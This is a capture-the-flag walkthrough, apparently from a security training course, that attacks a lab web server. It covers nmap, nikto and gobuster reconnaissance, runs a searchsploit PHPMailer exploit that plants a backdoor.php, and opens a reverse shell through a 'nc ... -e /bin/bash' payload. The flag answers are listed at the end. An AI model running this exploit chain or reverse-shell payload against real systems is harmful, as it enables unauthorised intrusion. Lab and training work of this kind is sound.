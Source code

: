 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other techniques have been explored. Look at the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Images/4/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Images/4/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Images/4/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Images/4/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Images/4/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Images/4/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Images/4/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Images/4/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Images/4/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Images/4/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Images/4/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Images/4/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Images/4/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Images/4/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Images/4/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Images/4/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
    
    ![20](/Images/4/20.PNG)

# FLAGS

flag1{a2c1f66d28051bd3a5874b5b6r43e21}

flag2{6a8ed560f0b5358ecf844108048eb337}

flag3{a0f568aa9de277887f37730d71520d9b}